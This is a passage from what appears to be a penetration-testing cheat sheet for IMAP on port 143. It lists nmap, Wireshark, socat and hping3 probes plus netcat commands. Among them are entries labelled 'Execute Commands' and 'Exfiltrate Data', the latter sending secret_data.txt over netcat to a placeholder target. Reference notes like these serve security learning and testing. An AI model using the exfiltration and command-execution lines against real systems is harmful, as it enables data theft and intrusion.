     ```bash
    wireshark -i <interface> -f "tcp port 143"
    ```

#### \[\[Nmap]]

*   **Basic Nmap Scan:** Scan target on specified port to verify if service is on.

    ```bash
    nmap <target_ip> -p 143
    ```

#### \[\[NetCat]]

*   **Netcat TCP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 143
    ```
*   **Netcat UDP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 143 -u
    ```
*   **Execute Commands:** Execute commands on target.

    ```bash
    echo "<command>" | nc <target_ip> 143
    ```
*   **Exfiltrate Data:** Exfiltrate data over specified port.

    ```bash
    nc <target_ip> 143 < secret_data.txt
    ```

#### \[\[SoCat Cheat Sheet]]

*   **Socat TCP Connect:** Simple tests to verify port service is running and responding.

    ```bash
    socat - TCP:<target_ip>:143
    ```

#### \[\[HPing3 Cheat Sheet]]

*   **Send UDP Packet:** Send a single UDP packet to the service.

    ```bash
    hping3 -2 <target_ip> -p 143 -c 1
    ```

### Other Techniques

#### IMAP via Email Clients

* **Description:** Leverage GUI email clients to access IMAP.
  * **\[\[Evolution]]**
  * **\[\[Thunderbird]]**
  * **\[\[Microsoft Outlook]]**
